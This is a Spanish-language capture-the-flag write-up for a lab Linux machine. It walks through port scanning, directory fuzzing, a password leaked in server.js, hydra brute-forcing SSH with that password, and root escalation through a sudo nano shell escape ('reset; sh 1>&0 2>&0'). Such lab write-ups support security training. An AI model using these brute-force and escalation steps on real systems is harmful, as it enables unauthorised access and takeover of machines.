


🔹Maquina: Consolelog
📅 Publicado el 24/08/2025 | Categoría: LINUX
📝 Descripción
Este reto consiste en comprometer una máquina Linux en un entorno controlado. No se proporciona una flag directa, pero el objetivo es obtener acceso privilegiado (root) y entender el vector de escalada.
🔍 Análisis inicial
El análisis comenzó con un reconocimiento básico utilizando herramientas de enumeración para comprender los servicios expuestos.
sudo nmap -p- -open -O -sS -sCV -min-rate 5000 -n -Pn -vvv 172.17.0.2
PORT STATE SERVICE REASON VERSION
80/tcp open http syn-ack ttl 64 Apache httpd 2.4.61 ((Debian))
| http-methods:
|_ Supported Methods: OPTIONS HEAD GET POST
|_http-title: Mi Sitio
|_http-server-header: Apache/2.4.61 (Debian)
3000/tcp open http syn-ack ttl 64 Node.js Express framework
|_http-title: Error
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
5000/tcp open ssh syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey:
| 256 f8:37:10:7e:16:a2:27:b8:3a:6e:2c:16:35:7d:14:fe (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFJIePZQO0+XTgRiD8dhTqAlZt67hcjqMdzF07uhb1UjckCZ085MdTFxg46SKaJRwi1OiB8GT+SeIlFbvm99Xkc=
| 256 cd:11:10:64:60:e8:bf:d9:a4:f4:8e:ae:3b:d8:e1:8d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIESd2Y3i6yTEAk2fPflmI3fA4pNsVZub38LafzPteZlz
entramos a Mi sitio, el cual no sirvio de nada
Hacemos fuzzing:
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50 -r
Starting gobuster in directory enumeration mode
================================================
/.html (Status: 403) [Size: 275]
/index.html (Status: 200) [Size: 234]
/backend (Status: 200) [Size: 1563]
/javascript (Status: 403) [Size: 275]
Entramos a server.js ya que los otros archivos se crean automaticamente cuando se usa Node.js:
Encontramos lapassworddebackupmaschingonadetodas que usaremos para hacer fuerza bruta sobre ssh:
hydra ssh://172.17.0.2:5000 -L /usr/share/wordlists/rockyou.txt -p lapassworddebackupmaschingonadetodas
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:14344399/p:1), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:5000/
[5000][ssh] host: 172.17.0.2 login: lovely password: lapassworddebackupmaschingonadetodas
Ya tenemos el usuario y la contraseña.
💣 Escalada de privilegios / Resolución
sudo -l
NOPASS /usr/bin/nano
que el binario se ejecute como superusuario sudo, no se pierden los privilegios elevados y se puede utilizar para acceder al sistema de archivos, escalar o mantener el acceso privilegiado.
sudo nano
^R^X
reset; sh 1>&0 2>&0
Listo:
whoami
root
🏆 Resultado
Conseguimos acceso como root.